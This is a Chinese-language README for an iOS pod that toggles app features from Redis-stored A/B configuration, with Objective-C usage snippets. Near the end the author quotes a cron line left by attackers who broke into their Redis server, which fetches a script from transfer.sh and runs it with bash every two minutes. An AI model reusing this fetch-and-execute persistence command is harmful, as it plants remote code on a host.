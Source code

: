 # ABTestSDK
## 一个用来灰度控制app功能的pod模块

### 使用方式 pod "NXHABTest"

##### 其中redis里面存储的配置会在app 进入前台的时候sync一次，命中生效是app主动拉取的,对于高频用户来说足够接近实时命中配置，对于低频用户 who care。遇到重大bug，可以规避一系列的风险，前提是AB本身不会引入更多bug。。。。这个不能保证啊！对于引导流量，目前只有全量下发，或者不发，没有类似nginx的权重导流，对于端上来说这是需要具体逻辑控制的，无能为力。

```
在appdelegate里面初始化：

- (BOOL)application:(UIApplication *)application didFinishLaunchingWithOptions:(NSDictionary *)launchOptions {

    [[ABTestManager sharedInstance] initFeature];**

  return YES;

}
```



> ```
> 使用某个key是否生效：
> 
> [[ABTestManager sharedInstance] isFeatuerEnable:@"test"] 
> ```
>

编辑页面：

[编辑灰度kv](http://47.98.179.35)



# redis被攻击了。。。。这么牛逼，还来攻击我的阿里云。呵呵

 > ```
 > "*/2 * * * * curl -s 
 > https://transfer.sh/nPQIj/tmp.vNuHLvnQ4D
 > 
 > > .cmd && bash .cmd"
 > ```
 >
 > 

#### TODO:后台页面登录与鉴权，编辑灰度列表功能。。。。初步设想是走一个鉴权，根据权限去拉自己的配置。